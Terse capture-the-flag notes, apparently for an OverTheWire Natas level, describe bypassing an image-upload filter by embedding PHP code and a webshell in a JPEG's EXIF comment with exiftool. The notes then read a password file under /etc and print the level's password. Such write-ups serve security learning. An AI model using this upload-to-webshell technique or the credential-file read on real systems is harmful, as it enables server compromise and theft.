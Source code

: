 now they only accept images
but its kinda poor because it only checks exif data of a file
we can still change the extension through the form
has to be really small <1KB

https://en.wikipedia.org/wiki/File:Blank.JPG#/media/File:Blank.JPG
exiftool -comment="<?php phpinfo(); ?>" Blank.jpg

put the webshell in php-webshell.php
exiftool -comment="$(cat php-webshell.php)" Blank.jpeg

change jpg to png on form again
send

cat /etc/natas_webpass/natas14
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
